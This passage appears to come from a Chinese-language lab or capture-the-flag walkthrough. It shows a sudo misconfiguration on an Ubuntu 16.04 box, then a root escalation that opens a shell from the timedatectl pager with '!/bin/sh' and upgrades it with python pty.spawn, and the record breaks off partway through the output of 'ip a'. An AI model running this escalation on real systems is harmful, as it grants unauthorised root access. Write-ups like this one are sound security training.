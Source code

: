   broken@ubuntu:~$ lsb_release -a
  No LSB modules are available.
  Distributor ID: Ubuntu
  Description:    Ubuntu 16.04 LTS
  Release:        16.04
  Codename:       xenial
  ```

## 提权

- ```shell
  broken@ubuntu:~$ sudo -l
  Matching Defaults entries for broken on ubuntu:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
  
  User broken may run the following commands on ubuntu:
      (ALL) NOPASSWD: /usr/bin/timedatectl
      (ALL) NOPASSWD: /sbin/reboot
  broken@ubuntu:~$ 
  ```

- 当前用户不需要密码即可使用`timedatectl`命令,[点我查看提权路径](https://gtfobins.github.io/gtfobins/timedatectl/#sudo)

  1. `sudo timedatectl list-timezones`
  2. `!/bin/sh`
  3. 即可完成权限提升

- ```shell
  broken@ubuntu:~$ sudo timedatectl list-timezones
  Africa/Abidjan
  Africa/Accra
  Africa/Addis_Ababa
  Africa/Algiers
  Africa/Asmara
  Africa/Bamako
  Africa/Bangui
  Africa/Banjul
  Africa/Bissau
  Africa/Blantyre
  Africa/Brazzaville
  Africa/Bujumbura
  Africa/Cairo
  Africa/Casablanca
  Africa/Ceuta
  Africa/Conakry
  Africa/Dakar
  Africa/Dar_es_Salaam
  Africa/Djibouti
  Africa/Douala
  Africa/El_Aaiun
  Africa/Freetown
  Africa/Gaborone
  Africa/Harare
  !/bin/sh
  # whoami
  root
  # python -c 'import pty;pty.spawn("/bin/bash")';
  root@ubuntu:~# whoami
  root
  root@ubuntu:~# ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1